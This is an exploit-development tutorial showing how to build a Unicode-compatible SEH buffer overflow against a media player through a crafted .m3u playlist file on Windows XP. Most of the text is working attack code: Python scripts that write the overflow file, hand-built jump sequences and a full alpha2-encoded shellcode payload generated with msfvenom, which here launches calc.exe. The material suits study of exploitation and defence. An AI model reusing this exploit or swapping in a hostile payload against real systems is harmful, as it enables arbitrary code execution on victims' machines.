






# Part4: From 0x00410041 to calc

## Get things setup
1. WinXP sp3
2. [vulnerable software](http://dw.com.com/redir?edId=3&siteId=4&oId=3000-2139_4-10691520&ontId=2139_4&spi=56d8806b97a1398c96c63ce1081bdbb6&lop=link&tag=tdw_dltext&ltype=dl_dlnow&pid=10694507&mfgId=6294769&merId=6294769&pguid=T2ATdQoOYJIAADBo9roAAAM2&ttag=dl_dldirect&destUrl=http%3A%2F%2Fdownload.cnet.com%2F3001-2139_4-10691520.html%3Fspi%3D56d8806b97a1398c96c63ce1081bdbb6%26dlm%3D0)

## Background

```
buffer_size = 5000
buffer = "A" * buffer_size

try:
    print "[+] Creating exploit file.."
    exploit = open('triologic.m3u','w');
    exploit.write(buffer);
    exploit.close();
    print "[+] Writing", len(buffer), "bytes to triologic.m3u"
    print "[+] Exploit file created!"
except:
    print "[-] Error: You do not have correct permissions.."

```






To solve this Unicode problem, we still follow the same thinking in past SEH exploit but need to find a new bunch of instructions which compatible with Unicode.

1. Find Unicode compatible "Pop Pop Ret" address for SEH
```
> mona.py seh -cp unicode
```

2. Find the execute harmless instructions for nSEH

Short jump instruction was used to jump over SEH to shellcode, in this case, we can use the execute harmless instructions to walk over nSEH and SEH.

For example, if nSEH = "\x61\x6E" and the location pointed by esi is writable, 

here is the Unicode format
```
\x61          popads

\x00\x72\x00  add byte ptr [edx],dh
```

As we can see, "\x72" could "eat away" the null bytes and make the exploit run harmless, just like Nops. Besides, "\x61" is a useful instruction, let's talk it later.

You can choose one of the following instructions depends on your case.

```
00 6E 00:add byte ptr [esi],ch
00 6F 00:add byte ptr [edi],ch
00 70 00:add byte ptr [eax],dh
00 71 00:add byte ptr [ecx],dh
00 72 00:add byte ptr [edx],dh
00 73 00:add byte ptr [ebx],dh
(62, 6d are 2 others that can be used – be creative & see what works for you)
```


3. To walk over SEH, we have to make sure "Pop Pop Ret" pointer is harmless too.

## Let's start it! Walk Over SEH


```
buffer_size = 5000

junk = "A" * 536
nSEH = "\x61\x72"
SEH = "\x41\x4a"

buffer = junk + nSEH + SEH
buffer += "\xCC" * (buffer_size - len(buffer))

try:
    print "[+] Creating exploit file.."
    exploit = open('triologic.m3u','w');
    exploit.write(buffer);
    exploit.close();
    print "[+] Writing", len(buffer), "bytes to triologic.m3u"
    print "[+] Exploit file created!"
except:
    print "[-] Error: You do not have correct permissions.."
```



## Jump to Shellcode



So we decide to put shellcode at 0x0012e370.

- with a register which closes the shellcode
```
buffer_size = 5000

junk = "A" * 536
nSEH = "\x61\x72"
SEH = "\x41\x4a"
jump = "\x53"   # push ebx
jump += "\x72"  # add     byte ptr [edx],dh
jump += "\x58"  # pop eax
jump += "\x72"
jump += "\x05\x14\x11"  #add     eax,11001400h
jump += "\x72"
jump += "\x2d\x13\x11"  #sub     eax,11001300h
jump += "\x72"
jump += "\x50"  # push eax
jump += "\x72"
jump += "\xc3"  # ret

buffer = junk + nSEH + SEH + jump
buffer += "A"*109   # junk
buffer += "C" * 200 # mock shellcode
buffer += "\xCC" * (buffer_size - len(buffer))
```

- with good stuff on the stack

```
buffer_size = 5000

junk = "A" * 536
nSEH = "\x61\x72"
SEH = "\x41\x4a"

jump = "\x58"   # pop eax
jump += "\x72"
jump += "\x05\x14\x11"  #add     eax,11001400h
jump += "\x72"
jump += "\x2d\x13\x11"  #sub     eax,11001300h
jump += "\x72"
jump += "\x50"  # push eax
jump += "\x72"
jump += "\xc3"  # ret

buffer = junk + nSEH + SEH + jump
buffer += "A"*111   # junk
buffer += "C" * 200 # mock shellcode
buffer += "\xCC" * (buffer_size - len(buffer))
```



## Run Shellcode
There are 2 approaches to run shellcode in this work.

1. find an ASCII equivalent and jump to it

The ASCII shellcode which we fed into the application likely exists somewhere in memory, find out and jump to run it.

2. Use a decoder

encode your ASCII exploit, prepend with a Unicode compatible decoder.

sounds easy but hard to code? Don't worry, we have two free tools.

- [vense.pl](http://www.phenoelit-us.org/win/)

Decode the shellcode to a new location, then jump to execute it.

you need to specify two registers, one points to the beginning of decoder+shellcode, the other points to a writable location for new shellcode.

- [alpha2 ](http://packetstormsecurity.org/shellcode/alpha2.tar.gz)

Decode the shellcode in-place and execute it, you only need one register that points to the beginning of decoder+shellcode.

Since alpha2 was adopted in Metasploit, let's use alpha2 to encode shellcode. suggest eax points to the beginning of decoder

```
msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegister=EAX -b '\x00' -f python
```


## put them together

```
buffer_size = 5000

junk = "A" * 536
nSEH = "\x61\x72"
SEH = "\x41\x4a"

jump = "\x58"   # pop eax
jump += "\x72"
jump += "\x05\x14\x11"  #add     eax,11001400h
jump += "\x72"
jump += "\x2d\x13\x11"  #sub     eax,11001300h
jump += "\x72"
jump += "\x50"  # push eax
jump += "\x72"
jump += "\xc3"  # ret

buffer = junk + nSEH + SEH + jump
buffer += "A"*111   # junk

buffer += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"
buffer += "\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"
buffer += "\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"
buffer += "\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"
buffer += "\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"
buffer += "\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"
buffer += "\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"
buffer += "\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"
buffer += "\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"
buffer += "\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"
buffer += "\x4c\x49\x58\x55\x32\x4b\x50\x4b\x50\x4d\x30\x51\x50"
buffer += "\x55\x39\x39\x55\x30\x31\x49\x30\x53\x34\x44\x4b\x42"
buffer += "\x30\x50\x30\x34\x4b\x42\x32\x4c\x4c\x54\x4b\x31\x42"
buffer += "\x4d\x44\x54\x4b\x44\x32\x4e\x48\x4c\x4f\x58\x37\x4f"
buffer += "\x5a\x4e\x46\x50\x31\x4b\x4f\x46\x4c\x4f\x4c\x51\x51"
buffer += "\x33\x4c\x4b\x52\x4e\x4c\x4f\x30\x39\x31\x38\x4f\x4c"
buffer += "\x4d\x4b\x51\x47\x57\x59\x52\x4c\x32\x52\x32\x51\x47"
buffer += "\x44\x4b\x51\x42\x4e\x30\x54\x4b\x50\x4a\x4f\x4c\x54"
buffer += "\x4b\x30\x4c\x4c\x51\x32\x58\x4b\x33\x30\x48\x4b\x51"
buffer += "\x4a\x31\x32\x31\x54\x4b\x30\x59\x4f\x30\x4d\x31\x38"
buffer += "\x53\x34\x4b\x4f\x59\x4e\x38\x39\x53\x4e\x5a\x30\x49"
buffer += "\x44\x4b\x4e\x54\x34\x4b\x4d\x31\x4a\x36\x30\x31\x4b"
buffer += "\x4f\x36\x4c\x37\x51\x48\x4f\x4c\x4d\x4d\x31\x38\x47"
buffer += "\x50\x38\x4b\x30\x53\x45\x4b\x46\x4b\x53\x33\x4d\x4a"
buffer += "\x58\x4f\x4b\x33\x4d\x4f\x34\x34\x35\x4a\x44\x42\x38"
buffer += "\x44\x4b\x30\x58\x4f\x34\x4b\x51\x39\x43\x53\x36\x54"
buffer += "\x4b\x4c\x4c\x30\x4b\x54\x4b\x42\x38\x4d\x4c\x4b\x51"
buffer += "\x48\x53\x44\x4b\x4d\x34\x54\x4b\x4b\x51\x4a\x30\x33"
buffer += "\x59\x31\x34\x4f\x34\x4d\x54\x51\x4b\x31\x4b\x51\x51"
buffer += "\x30\x59\x31\x4a\x32\x31\x4b\x4f\x4b\x30\x51\x4f\x51"
buffer += "\x4f\x31\x4a\x54\x4b\x4c\x52\x5a\x4b\x54\x4d\x31\x4d"
buffer += "\x42\x4a\x4d\x31\x44\x4d\x35\x35\x46\x52\x4d\x30\x4b"
buffer += "\x50\x4b\x50\x30\x50\x32\x48\x4e\x51\x54\x4b\x52\x4f"
buffer += "\x54\x47\x4b\x4f\x48\x55\x57\x4b\x4a\x50\x46\x55\x47"
buffer += "\x32\x32\x36\x32\x48\x47\x36\x35\x45\x57\x4d\x35\x4d"
buffer += "\x4b\x4f\x48\x55\x4f\x4c\x4d\x36\x33\x4c\x4b\x5a\x35"
buffer += "\x30\x4b\x4b\x39\x50\x44\x35\x4c\x45\x37\x4b\x31\x37"
buffer += "\x4e\x33\x54\x32\x42\x4f\x51\x5a\x4b\x50\x32\x33\x4b"
buffer += "\x4f\x48\x55\x32\x43\x31\x51\x42\x4c\x42\x43\x4e\x4e"
buffer += "\x31\x55\x32\x58\x53\x35\x4b\x50\x41\x41"
buffer += "\xCC" * (buffer_size - len(buffer))

try:
    print "[+] Creating exploit file.."
    exploit = open('triologic.m3u','w');
    exploit.write(buffer);
    exploit.close();
    print "[+] Writing", len(buffer), "bytes to triologic.m3u"
    print "[+] Exploit file created!"
except:
    print "[-] Error: You do not have correct permissions.."

```




## Ref
1. https://www.corelan.be/index.php/2009/11/06/exploit-writing-tutorial-part-7-unicode-from-0x00410041-to-calc/
2. http://www.fuzzysecurity.com/tutorials/expDev/5.html


